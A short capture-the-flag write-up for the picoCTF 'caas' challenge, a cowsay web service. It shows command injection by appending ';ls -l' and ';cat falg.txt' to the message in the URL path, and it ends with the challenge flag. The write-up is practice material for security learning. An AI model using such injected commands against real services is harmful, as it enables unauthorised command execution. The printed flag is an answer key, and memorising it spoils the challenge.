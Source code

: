 # caas 
## Problem 
Now presenting https://caas.mars.picoctf.net/
## Solution 
I open the website, i see a message: 

![image](https://user-images.githubusercontent.com/84562630/160312654-6cbcde55-68a7-4253-8afc-5b1736ff85d0.png)

It requires that access to /cowsay and a /{message}. I try to access to  https://caas.mars.picoctf.net/cowsay/hellopico;%20%20ls%20-l

![image](https://user-images.githubusercontent.com/84562630/160313262-ee06a1ab-f563-4d14-a0b8-37057507cc60.png)

I see a falg.txt here, i open it with https://caas.mars.picoctf.net/cowsay/hellopico;%20%20cat%20falg.txt

![image](https://user-images.githubusercontent.com/84562630/160313490-3e237950-83c5-4ac3-931f-4b3f940f3d55.png)
## Flag
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

